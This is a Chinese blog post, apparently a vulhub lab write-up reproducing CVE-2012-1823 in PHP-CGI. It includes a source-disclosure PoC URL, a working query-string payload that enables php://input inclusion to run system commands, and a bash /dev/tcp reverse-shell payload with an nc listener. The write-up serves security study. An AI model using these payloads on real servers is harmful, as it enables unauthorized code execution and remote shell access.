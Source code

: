```yaml
---
title: 漏洞复现-PHP-CGI远程代码执行 CVE-2012-1823
description: 漏洞复现
author: #有默认值
date: 2024-08-28 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd ./vulhub/php/CVE-2012-1823
docker-compose up -d 
```

## 漏洞原理
https://blog.csdn.net/jiyongx/article/details/105220880
https://github.com/vulhub/vulhub/tree/master/php/CVE-2012-1823

## PoC（Proof of Concept） 验证漏洞存在的代码
```shell
http://<ip>:<port>/index.php/?-s #将返回源码
```

## Exp（Exploit）进行实际的攻击利用
使用-d来指定auto_prepend_file制造任意文件包含漏洞，使用burpsuite抓包，然后修改数据包内容。使用“+”代替空格%3d代替“=”​​​​​​​

payload 漏洞利用载荷：

```url
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
<?php echo system("ls"); ?>
```

执行截图：

![image-20240828155056972](../assets/img/2024-08-28/iShot_2024-08-28_15.57.50.png)

成功执行代码ls



### 建立反弹shell：

shellcode 

**靶机**执行payload 
```php
<?php echo shell_exec("bash -c 'exec bash -i >& /dev/tcp/<监听机ip>/8999 0>&1'");?>
```
**接收反弹Shell机器**执行：**`nc -lvp 8999`**



## 复现总结

### 为什么payload 要 “+”代替空格%3d代替“=” ？

确保 URL 在传输过程中不被误解或破坏，进行转义。通常，空格会被编码为 `%20`，但在查询字符串中，空格也可以用 `+` 来表示。“=”替换为“%3d”
但on+-d ‘+’ 作为与后一个-d的参数分隔符，不能换成 %20
%09 tab
%2b url 解码即为 + 能代替空格

### 构造反弹shell
注意：
**接收反弹Shell机器** 监听端口防火墙要配置放行，任意ip能访问，安装nc
**靶机** 能够执行bash命令，且访问到监听机